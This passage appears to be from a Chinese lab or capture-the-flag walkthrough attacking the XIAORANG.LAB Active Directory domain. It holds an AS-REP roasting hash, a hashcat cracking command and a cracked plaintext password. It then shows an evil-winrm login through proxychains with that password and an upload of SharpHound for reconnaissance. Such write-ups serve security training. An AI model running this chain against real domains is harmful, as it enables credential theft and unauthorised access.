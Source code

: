 ```bash
$krb5asrep$23$yangdming@XIAORANG.LAB:f0cf3d49f574dd2a26ed4858bcc9e594$8a0a5ee6d5e83c1595c2b7efec409e1e98358f91776980c4d3c2fe5117511de6556fa2a0dc0762c7f89f16c25c4504beae83d8a69cc002b154c20d1f83c9663180223bd3154ddbd9f912c7cb74c42ee31d8bbb3e34f5e71836ffa7636a9c0f787ee2f1b55a93cfea50b1583c6ba7d5cf44e7dbb50f5d8aadfcaa7b17816053a6718e7d01ddd480f91e28cf3610f90638071f8b8c6310a2e8263617f9d84ce76a5e6a7c3dc9444c639a9eff5ca95baf0da87572f9155f3a956736232fa7cd0fc8e1780b5eabea9c225192353e4a17bf4e66373a799aa3214e5822bb74e0015efbd2e943c98aa8acf39bad271c
```

yangdming 不要求 Kerberos 预身份验证

hashcat 爆破一下

```bash
hashcat -m 18200 '$krb5asrep$23$yangdming@XIAORANG.LAB:324cd949cb813b90b13219cfc6bbbd6e$1b4b3d2bc2c3d754e74e425e18c759c35a27a12341d4e41bd40248d60b4c5c064dcc2ecd7e17571022465b61db5fa98c7826a4fe8e132bb895c48fbcdcd8f011c97ee741d716ca1401ba24a3fd01d72d95071d447a1def6d8cebb9e57108fa3ac2f235b86b281a198e84518fa06b0c3c8d0a8c51a025693ee5e8a23f7757499daf2a336bf26acb952bf814f891c435799221124c94d68a78c44e632eb1a8a6ab599e456cc037f89dee504cf56dcc1d8bef6f619cc7a3172be4d13430873588028dd547e3026ef229e4b545c825f14583baa7c2f0b94e6304a01021bb6fd5173cb2213060727b3e97c533277e' '/root/Desktop/rockyou.txt'  --force
```

[![](assets/1708919820-b91dbe4313f2f650a79d45fceb0bf087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024928-c84fc034-cb69-1.png)

```bash
kier@n10
```

evil-winrm 连接

```bash
proxychains evil-winrm -i 172.22.61.34 -u yangdming -p kier@n10
```

upload 一个 SharpHound.exe 采集一些

```bash
upload /root/Desktop/SharpHound.exe .
```
